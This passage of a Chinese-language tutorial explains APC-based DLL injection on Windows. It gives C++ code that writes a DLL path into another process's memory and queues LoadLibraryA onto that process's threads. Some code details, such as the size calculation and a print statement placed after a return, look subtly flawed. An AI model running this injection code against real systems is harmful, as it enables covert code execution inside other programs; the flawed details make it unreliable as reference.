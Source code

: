 ```
    *ppThreadIdList = pThreadIdList;
    return TRUE;
}
```

二、

**_申请并写入 DLL 地址_**

老生常谈了。直接上代码：

```
//申请内存
    WCHAR* lpAddr = NULL;
    SIZE_T page_size = 4096;
    lpAddr = (WCHAR*)VirtualAllocEx(hProcess, nullptr, page_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!lpAddr) {
        VirtualFreeEx(hProcess, lpAddr, page_size, MEM_DECOMMIT);
        CloseHandle(hProcess);
        return FALSE;
    }
    //把Dll的路径复制到内存中
    if (!WriteProcessMemory(hProcess, lpAddr, wzDllFullPath, (strlen(wzDllFullPath) + 1) * sizeof(wzDllFullPath), nullptr)) {
        VirtualFreeEx(hProcess, lpAddr, page_size, MEM_DECOMMIT);
        CloseHandle(hProcess);
        return FALSE;
    }
```

```
DWORD QueueUserAPC(
  PAPCFUNC  pfnAPC, //指向一个用户提供的APC函数的指针,当线程处于alertable状态时回调
  HANDLE    hThread, //线程句柄，必须有THREAD_SET_CONTEXT 权限
  ULONG_PTR dwData //传递给回调函数的参数值
);
```

三、

**_加入 APC 队列_**

加入 APC 队列的话，主要用的是 QueueUserAPC 这种函数，函数原型为：

```
//获得LoadLibraryA的地址
    auto loadLibraryAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA"); 
//遍历APC
    float fail = 0;
    for (int i = dwThreadIdListLength - 1; i >= 0; i--) {
        HANDLE hThread  = OpenThread(THREAD_ALL_ACCESS, FALSE, pThreadIdList[i]);
        if (hThread) {
            if (!QueueUserAPC((PAPCFUNC)loadLibraryAddress, hThread, (ULONG_PTR)lpAddr)) {
                fail++;
            }
            CloseHandle(hThread);
            hThread = NULL;
        }
    }
    printf("Total Thread: %d\n", dwThreadIdListLength);
    printf("Total Failed: %f\n", fail);
    if (fail == 0 || dwThreadIdListLength / fail > 0.5) {
        return TRUE;
        printf("Success to Inject APC");
    }
    else {
        printf("Inject may be failed");
```